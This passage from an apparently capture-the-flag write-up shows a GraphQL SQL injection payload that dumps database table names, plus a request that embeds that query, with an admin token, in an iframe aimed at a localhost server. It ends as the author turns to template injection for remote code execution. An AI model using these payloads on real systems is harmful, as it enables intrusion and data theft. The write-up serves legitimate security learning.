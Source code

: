 ```
{
  getDataByName(name:"john\\n'UNION SELECT table_name,NULL,NULL,NULL FROM information_schema.tables;-- ") {
    id
    name
  }
}
```

```json

{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYyMTE4NDd9.Pk8ZBsRnCz82MIJhLuAfWJ6H0k4x2DaVlvY18dkCxYc&query=%7B%0A%20%20getDataByName(name%3A%22john\\n%27UNION%20SELECT%20table_name%2CNULL%2CNULL%2CNULL%20FROM%20information_schema.tables%3B--%20%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='2000' width='1000'></iframe>"
}
```

![image](../images/htb-ctf-2024/sql-table-dump.png)
*SQL table name dump*

There was nothing immediately useful here, so I shifted my efforts toward gaining RCE on the server to call `/readflag` and finish the challenge.

## Server-Side Template Injection (SSTI) & Remote Code Execution (RCE)

Final stretch - finding a way to get RCE on the server, presumebly via SQL injection. After doing some research, I came across [SSTI in EJS](https://eslam.io/posts/ejs-server-side-template-injection-rce/) - the templating engine used by the web application.
